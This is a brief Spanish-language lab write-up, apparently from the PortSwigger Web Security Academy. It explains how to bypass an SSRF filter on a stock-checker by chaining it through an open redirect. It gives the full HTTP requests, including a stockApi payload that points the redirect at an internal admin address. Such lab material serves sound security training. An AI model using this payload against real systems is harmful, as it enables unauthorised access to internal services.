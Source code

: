 The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

Haciendo una request directamente no deja, pero pasando la request a un open redirect que haga la petición interna ==bypaseamos ese filtro==

``` request
POST /product/stock HTTP/2
Host: 0ab800830446a8588300a0ef00af0072.web-security-academy.net
Cookie: session=cCW4DzYlJqVFwOCgCJCACF9jEQR9bhFK; session=2XI0cPpWGMLj7a8udnXgPDin9nje3PQ1
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: */*
Origin: https://0ab800830446a8588300a0ef00af0072.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ab800830446a8588300a0ef00af0072.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

aprovechándonos de esta petición :

```request

GET /product/nextProduct?currentProductId=2&path=/product?productId=3 HTTP/2
Host: 0ab800830446a8588300a0ef00af0072.web-security-academy.net
Cookie: session=DGeSsz30YMo7s8mspnNqwmWV28TZ4tCr; session=2XI0cPpWGMLj7a8udnXgPDin9nje3PQ1
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab800830446a8588300a0ef00af0072.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=0, i
```
